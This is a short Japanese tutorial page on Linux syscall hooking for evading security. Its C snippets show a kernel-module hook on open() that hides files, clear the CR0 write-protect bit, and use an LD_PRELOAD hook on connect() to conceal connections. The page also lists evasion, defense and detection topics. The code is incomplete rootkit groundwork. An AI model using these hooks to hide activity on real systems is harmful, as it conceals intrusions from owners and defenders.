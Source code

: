 # Syscall Hooking Techniques

**対応OS**: Linux

## 概要
システムコールフックを使用して、セキュリティ機能を回避する手法について解説します。

## 基本的な手法

### LKMを使用したシステムコールフック
```c
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/syscalls.h>

// オリジナルのシステムコールテーブル
unsigned long *sys_call_table;

// オリジナルのopen syscall
asmlinkage long (*original_open)(const char __user *filename, int flags, umode_t mode);

// フックされたopen syscall
asmlinkage long hooked_open(const char __user *filename, int flags, umode_t mode)
{
    // 特定のファイルへのアクセスを隠蔽
    if (strstr(filename, "secret") != NULL)
        return -ENOENT;
    
    return original_open(filename, flags, mode);
}

// メモリ保護の無効化
void disable_write_protection(void)
{
    unsigned long cr0 = read_cr0();
    clear_bit(16, &cr0);
    write_cr0(cr0);
}

// メモリ保護の有効化
void enable_write_protection(void)
{
    unsigned long cr0 = read_cr0();
    set_bit(16, &cr0);
    write_cr0(cr0);
}
```

### LD_PRELOADを使用したライブラリフック
```c
#define _GNU_SOURCE
#include <dlfcn.h>

typedef int (*orig_connect_t)(int sockfd, const struct sockaddr *addr, socklen_t addrlen);

int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen)
{
    orig_connect_t orig_connect;
    orig_connect = dlsym(RTLD_NEXT, "connect");
    
    // 特定の接続を隠蔽
    if (is_blacklisted_connection(addr))
        return -1;
        
    return orig_connect(sockfd, addr, addrlen);
}
```

## 検知回避テクニック
- カーネルメモリの改変検知回避
- シグネチャベースの検知回避
- 動的解析の回避
- アンチデバッグ技術

## 防御策
- セキュアブート
- カーネルモジュールの署名検証
- システムコール監視
- ファイルインテグリティ監視

## 検知方法
- カーネルメモリの整合性チェック
- システムコールの動作監視
- 不審なモジュールのロード検知
- 異常な動作パターンの検出

## 注意事項
- このテクニックは教育目的でのみ使用してください
- 実環境での使用は法的責任を伴う可能性があります
- すべてのテストは許可された環境でのみ行ってください 